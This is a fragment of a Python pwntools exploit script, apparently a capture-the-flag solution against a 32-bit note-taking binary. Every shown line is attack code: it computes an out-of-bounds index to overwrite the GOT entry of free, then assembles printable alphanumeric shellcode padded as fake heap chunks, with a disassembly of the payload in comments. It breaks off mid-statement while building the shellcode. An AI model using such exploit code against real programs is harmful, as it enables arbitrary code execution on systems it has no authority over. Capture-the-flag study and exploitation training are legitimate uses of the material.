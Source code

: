 ```python

def delete(idx):
	cmd(3)
	p.recvuntil('Index :')
	p.sendline(str(idx))

def quit():
	cmd(4)

note = 0x0804A080
offset = (elf.got['free'] - note) / 4
info(offset)
padding = p32(0) + p32(0x11)

#   0:   50                      push   eax
#   1:   59                      pop    ecx
#   2:   6a 7a                   push   0x7a
#   4:   5a                      pop    edx
#   5:   53                      push   ebx
#   6:   75 38                   jne    0x40
#   8:   00 00                   add    BYTE PTR [eax],al
#   a:   00 00                   add    BYTE PTR [eax],al
#   c:   11 00                   adc    DWORD PTR [eax],eax
#   e:   00 00                   add    BYTE PTR [eax],al
#  10:   34 46                   xor    al,0x46
#  12:   30 41 35                xor    BYTE PTR [ecx+0x35],al
#  15:   53                      push   ebx
#  16:   75 38                   jne    0x50
#  18:   00 00                   add    BYTE PTR [eax],al
#  1a:   00 00                   add    BYTE PTR [eax],al
#  1c:   11 00                   adc    DWORD PTR [eax],eax
#  1e:   00 00                   add    BYTE PTR [eax],al
#  20:   66 75 63                data16 jne 0x86
#  23:   6b 50 50 50             imul   edx,DWORD PTR [eax+0x50],0x50
#  27:   50                      push   eax
#  28:   00 00                   add    BYTE PTR [eax],al
#  2a:   00 00                   add    BYTE PTR [eax],al
#  2c:   11 00                   adc    DWORD PTR [eax],eax
#  2e:   00 00                   add    BYTE PTR [eax],al
#  30:   58                      pop    eax
#  31:   34 33                   xor    al,0x33
#  33:   34 30                   xor    al,0x30
#  35:   74 39                   je     0x70
#  37:   50                      push   eax
#  38:   00 00                   add    BYTE PTR [eax],al
#  3a:   00 00                   add    BYTE PTR [eax],al
#  3c:   11 00                   adc    DWORD PTR [eax],eax
#  3e:   00 00                   add    BYTE PTR [eax],al
#  40:   58                      pop    eax
#  41:   48                      dec    eax
#  42:   30 41 46                xor    BYTE PTR [ecx+0x46],al
#  45:   75 36                   jne    0x7d
#  47:   50                      push   eax
#  48:   00 00                   add    BYTE PTR [eax],al
#  4a:   00 00                   add    BYTE PTR [eax],al
#  4c:   11 00                   adc    DWORD PTR [eax],eax
#  4e:   00 00                   add    BYTE PTR [eax],al
#  50:   30 41 36                xor    BYTE PTR [ecx+0x36],al
#  53:   30 41 57                xor    BYTE PTR [ecx+0x57],al
#  56:   75 61                   jne    0xb9
sh = (
	'PYjzZSu8' + padding +
	'4F0A5Su8' + padding +
```